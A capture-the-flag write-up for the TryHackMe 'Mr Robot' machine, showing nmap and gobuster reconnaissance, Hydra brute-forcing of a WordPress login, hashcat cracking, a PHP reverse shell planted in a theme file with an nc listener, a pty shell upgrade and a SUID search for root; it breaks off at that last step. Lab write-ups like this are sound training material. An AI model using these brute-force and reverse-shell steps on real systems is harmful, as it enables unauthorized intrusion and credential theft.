# THM - Mr Robot CTF


## Description:

	Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users.
	
	There are 3 hidden keys located on the machine, can you find them?

## Solution:


### Nmap scan showed three ports on the target machine, two of which were open...

```bash
nmap -A -v <target_ip>
```
### Nmap scan results

```
PORT    STATE  SERVICE  VERSION
22/tcp  closed   ssh
80/tcp   open   http     Apache httpd
443/tcp  open  ssl/http  Apache httpd
```

### I visited the website over http:

The website contained some sick visuals and videos maybe containing potential valuable info? I don't know yet but seems like it.
Unfortunately I couldn't hear the audio of those videos since I'm cracking this box in a cafe and my headphones' battery died.

### I took a look at the /robots.txt file, which contained:

- fsocity.dic
- key-1-of-3.txt


fsocity.dic contains a long list of words, guess it will come in handy as potential wordlist for a bruteforce attack later.

I copied the contents and pasted them in a wordlist.txt file for later use.

Apparently it contained 858160 words.

```bash
wc -w wordlist.txt
```
##### Output:

858160 wordlist.txt


### First key found:

key-1-of-3.txt contained the first key which seems like an encrypted hash:

073403c8a58a1f80d943455fb30724b9

Hmmm...

### I launched Hash Identifier to see what's the type of the hash:

```bash
hash-identifier
```

 HASH: 073403c8a58a1f80d943455fb30724b9

Output:

-Possible Hashes:

`[+] MD5`

`[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))`


### I will attempt to use hashcat to crack the hash using the wordlist I found before.

```bash
echo "073403c8a58a1f80d943455fb30724b9" > key1.txt
```

```bash
hashcat -a 0 -m 0 key1.txt wordlist.txt
```
 
`-a 0: attack mode: wordlist`

`-m 0: hash type: MD5`

Nothing was found, I will try MD4:

```bash
hashcat -a 0 -m 900 key1.txt wordlist.txt
```

`-m 900: hash type: MD4`

Nothing was found using MD4 either.

### I went to look for any other subdirectories with gobuster:


```bash
gobuster dir -u http://<target_ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
`dir: Directory bruteforcing mode.`

`-u: Target URL.`

`-W: Path to the wordlist I will be using.`

The output contained many directories and a /wp-login directory which was a WordPress login page, interesting...

### I tried to login using the credentials admin:admin which returned an "Invalid username" error




I guess it's bruteforce time! I will attempt to use Hydra with the wordlist I found earlier, I love Hydra! it's my favorite tool so far. However, I still need to know the parameters used in the login form request to launch an effective bruteforce attack.

### I launched Burpsuite and again tried logging in with admin:admin using proxy intercept to take a look at the request being made.

#### Okay... looks like it's a POST request with parameters "log" and "pwd".



### I also noticed that the wordlist had many duplicated words, so I will fix it real quick.

```bash
sort wordlist.txt | uniq -d > refined_list.txt

sort wordlist.txt | uniq -u >> refined_list.txt

wc -w refined_list.txt
```
#### Output:
11451 refined_list.txt

### Using Hydra to try and get some some usernames.

```bash
hydra -L refined_list.txt -p test <target_ip> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -VV -t 35
```

`-L: list of potential usernames.`


`-p: static password.`


`http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username`


`http-post-form: to tell hydra that the website is using a POST form to login.`


`/wp-login.php: the subdirectory of the login page.`
     
```
log=^USER^&pwd^PASS^: "log" and "pwd" are the parameters I found using burpsuite.
^USER^ and ^PASS^ are placeholder variables that will be replaced with
what I provided Hydra (words in the wordlist refined_list.txt for ^USER^ 
and "test" for the ^PASS^ variable).
```

```
F=Invalid username: the error that gets returned when an invalid username is used.
So basically telling hydra that whatever login attempt returns this error is an
invalid attempt. therefore, if something else is returned, that means it it's a username that exists.
```

`-VV: Extra verbose mode.`

`-t 35: For speed (run TASKS number of connects in parallel).`

### Hydra returned 3 valid usernames:

elliot, Elliot and ELLIOT



### I went to the login page to confirm, and got the error: The password you entered for the username elliot is incorrect. which is what I wanted.



### Okay... Now that I found some potential usernames, time to crack some passwords.

this time I'm using hydra the same way but the opposite (to crack passwords instead of usernames).


```bash
hydra -l elliot -P refined_list.txt <target_ip> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -VV -t 35
```
`-l: Static Username.`

`-P: List of password`

### Hydra found a valid password:

ER28-0652



### I managed to login using credentials I found elliot:ER28-0652



### The user I'm logged in as, is an admin... which means I can edit the php code such as the template code in archives.php under the appearance/editor tab to spawn a reverse shell



### I researched online and found this php reverse shell code on GitHub by pentestmonkey.



### I went ahead and started a listener on port 4444.

```bash
nc -lvnp 4444
```


### replaced archives php template code with the reverse shell code I copied from GitHub, modified it to include my tun0 ip and the port my listener is set to.



### time to see if I can pop a shell by visiting ***http://[target-ip]/wp-content/themes/twentyfifteen/archive.php*** to execute the code




### And boom. I got a shell.



### I found interesting files in /home/robot (key-2-of-3.txt) that probably contains the second key which I don't have the permission to read, and password.raw-md5 which contains a hash.


### Hash:


### Launched hashcat again hopefully I will get it this time

```bash
hashcat -a 0 -m 0 md5.txt /usr/share/wordlists/rockyou.txt
```

### And hash cracked! abcdefghijklmnopqrstuvwxyz



### I tried to ssh into the robot user with new password I found, which failed to connect since the ssh port is closed as the nmap scan showed at the very beginning. [Click to jump to scan results](#nmap-scan-results)



### I tried switching user with the su command which failed as well since this is a reverse shell and not the actual interactive terminal.

```bash
su robot
```



### Searching a bit online, I just found and learned about python's pty module, which lets me spawn a bash shell with its spawn() function. Very interesting...



```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```



### After being able to change user... I was able to read the contents of the key file which included the second key!



### Almost there, one more key to go. As for the last key, I probably have to escalate privilege to root

As I solved a couple of Privilege escalation boxes before, one way I learned so far is to exploit SUID files to get root. running a SUID file executes with the privileges of the owner, regardless of who executed it.

I will see if I can find any files set to SUID

```bash
find / -type f -perm -u=s 2>/dev/null
```

`/: search everything under the root directory.`

`-type f: only search for files.`

`-perm -u=s: search for files with SUID bit set.`

`2>/dev/null: doesn't show errors`

### Seeing nmap appear in the search result is interesting. Searching a bit online, I found a way to get a root shell using nmap on GTFOBins.



